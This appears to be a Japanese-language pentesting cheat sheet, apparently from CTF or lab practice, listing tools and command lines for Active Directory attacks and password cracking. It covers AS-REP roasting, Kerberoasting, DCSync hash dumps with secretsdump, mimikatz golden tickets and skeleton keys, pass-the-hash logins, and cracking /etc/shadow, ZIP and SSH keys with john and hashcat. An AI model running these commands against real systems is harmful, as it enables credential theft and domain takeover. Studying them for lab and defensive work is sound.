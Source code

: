 ## Tools
- CyberChef  
  「Magic」可読可能な文字列に変換してくれる
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (kali〇, Perl)  
  「`enum4linux` IPアドレス」
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (kali〇, Ruby)  
  「`evil-winrm` -i IPアドレス -u ユーザ名 -H NTハッシュ」でWinRM経由でログインできる。
- [GoBuster](https://github.com/OJ/gobuster) (kali×, Go)  
  「`gobuster` -u URL -w wordlist dir」URL配下のコンテンツをWordlistを用いて探索
- gpg (kali〇, ELF)    
  「`gpg` --import "GPG鍵(拡張子.key)"」→「`gpg` -d "メッセージファイル(拡張子.gpg)"」でGPGファイルを復号
- [hashcat](https://github.com/hashcat/hashcat) (kali〇, C)  
  「`hashcat` -a 0 -m 値 Hashファイル Wordlist」  
  「-a 0 」は辞書攻撃、「-m 値」はハッシュ形式（-m 13100 は「$krb5tgs」、-m 18200 は「$krb5asrep」）
- [hashID](https://github.com/psypanda/hashID) (kali〇, python)  
  「`hashid` --john "Hashファイル名"」（--johnで、JohnTheRipperでのフォーマットも確認できる）
- [impacket](https://github.com/fortra/impacket) (Kali〇, python)  
  `impacket-〇〇`以外に、`python3 /usr/share/doc/python3-impacket/examples/〇〇.py`でも実行できる
  - GetNPUsers  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP ドメイン名/ユーザ名 -outputfile 出力ファイル名」  
      で`ASREPRoast`（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
      取得したTGTを「john --wordlist=Wordlist名 TGT名」または「hashcat -a 0 -m 18200 wordlist名 TGT名 」でクラックできる  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP -userfile ユーザリスト ドメイン名/ -outputfile 出力ファイル名」  
      では「-userfile」内の各ユーザに対してASREPRoastを実行
  - GetUserSPNs  
    「`impacket-GetUserSPNs` -dc-ip ドメコンIP ドメイン名/ユーザ名:パスワード -outputfile 出力ファイル名」  
    でKerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行
  - secretsdump  
    「`impacket-secretsdump` -just-dc ドメイン名/ユーザ名:パスワード@IPアドレス -outputfile 出力ファイル名」  
    でDCSync権限を持つドメインユーザを使用して、各ドメインユーザのNTハッシュやKerberosキーをダンプできる。
- [John the Ripper](https://github.com/openwall/john) (kali〇, C)  
  - 「`john` --wordlist=/usr/share/wordlists/rockyou.txt "Hashファイル" --format=Hash方式」  
    「`john` "Hashファイル名" --show」クラック済み結果を表示（もしくは`/home/kali/.john/.john.pot`に解析結果がある）
  - 「`john` --list=formats」全フォーマットを表示  
    「--format=Raw-MD5」MD5ハッシュ, 「--format=nt」NTハッシュ
  - johnで解析するためのパスワード抽出
    - 「`zip2john` "zipファイル" > "出力ファイル"」johnで解析できるようにZIPパスワードを出力  
    - 「`rar2john` "rarファイル" > "出力ファイル"」johnで解析できるようにRARパスワードを出力  
    - 「`ssh2john` "SSH秘密鍵ファイル" > "出力ファイル"」johnで解析できるようにSSH秘密鍵を出力
    - 上記３つを実行後、「`john` --wordlist=/usr/share/wordlists/rockyou.txt "出力ファイル"」でクラック可能
  - 「john --single "Hashファイル" --format=Hash方式」SingleCrackモード（あんま使わん）  
    Hashファイルは`文字列:ハッシュ`形式。文字列を変換しながらHashクラックを行う。
  - 「sudo `unshadow` /etc/passwd /etc/shadow」  
    Johnで /etc/shadow をクラックするためのフォーマット作成
- [Kerbrute](https://github.com/ropnop/kerbrute) (kali×, Go)
  - install  
    GitHub上のReleaseからLinuxバイナリをインストール
  - 「`./kerbrute` userenum -d ドメイン名 --dc ドメコンIP Wordlists名 -o 出力ファイル名」Domainユーザの列挙
- [mimikatz](https://github.com/gentilkiwi/mimikatz) (kali〇, C)  
  「privilege::debug」→「[output '20' OK]」でAdministrator権限を確認
  - Golden/Silver Ticket Attacks  
    「lsadump::lsa /inject /name:krbtgt」  
    でkrbtgtアカウントのNTハッシュやSIDをダンプ（SilverTicketの場合は/nameで指定のユーザを指定）  
    「Kerberos::golden /user:Administrator /domain:ドメイン名 /sid:krbtgtのSID /krbtgt:krbtgtのNTハッシュ /id:500」  
    でGoldenTicketを作成（SilverTicketは別の方法）  
    「misc::cmd」で先程作成したTicketに昇格する
  - Pass the Ticket  
    「sekurlsa::tickets /export」.kiribiチケットが現在地にエクスポート  
    「kerberos::ptt .kiribiチケット名」→「klist」でキャッシュされたチケットを表示で攻撃の成功を確認
  - Skeleton Key  
    「misc::skeleton」ドメコンのメモリ上にマスタパスワードを挿入し、AD認証をバイパスする。
- [Rubeus](https://github.com/GhostPack/Rubeus) (kali×, C#)  
  攻撃対象のWindowsマシンで実行する、Post-Exploitationのイメージ  
  - 「`Rubeus.exe` harvest /interval:秒数」指定した秒数間、TGTを収集する  
  - 「`Rubeus.exe` kerberoast /nowrap /outfile:出力ファイル」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行（nowrapは改行なしで結果出力）  
    TGSは「`hashcat` -a 0 -m 13100 TGSファイル Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - 「`Rubeus.exe` asreproast /format:hashcat /outfile:出力ファイル」  
    ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
    ASREPは「`hashcat` -a 0 -m 18200 ASREPファイル Passwordリスト」でクラックできる（Johnでもクラックできる）
- scp (kali〇, ELF)  
  「scp SSHユーザ名@IPアドレス:/リモートパス ローカルパス」リモート先からダウンロード
- smbclient (kali〇, ELF)  
  「`smbcleint` -L IPアドレス or FQDN -U ユーザ名%パスワード」共有フォルダの列挙  
  「`smbclient` //IPアドレス/共有名 -U ユーザ名%パスワード」共有フォルダにアクセス
- [SMBMap](https://github.com/ShawnDEvans/smbmap) (kali〇, python)  
  「`smbmap` -H IPアドレス -u ユーザ名 -p パスワード」共有フォルダの列挙（smbclientと比べフォルダ権限まで確認できる）
- SSH  
  SSH秘密鍵の権限は600か700でないとSSH鍵認証できない
  - sshkeygen
## Linux
### Command
- 「`sed` -i '1s/^/文字列' ファイル名」 ファイルの１行目（`1s`）先頭に文字列を追加（改行なし）
### Preference
- 「`sudo sed -i '$a10.10.253.185 spookysec.local' /etc/hosts`」を実行しHOSTSファイルを編集
- `$format$rounds$salt$hash` /etc/shadowのフォーマット、`$format`でハッシュ種別が分かる
## BookMark
- [CrackStation](https://crackstation.net/)
- [hashes.com](https://hashes.com/en/decrypt/hash)
- [hash_identifier](https://hashes.com/en/tools/hash_identifier)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)
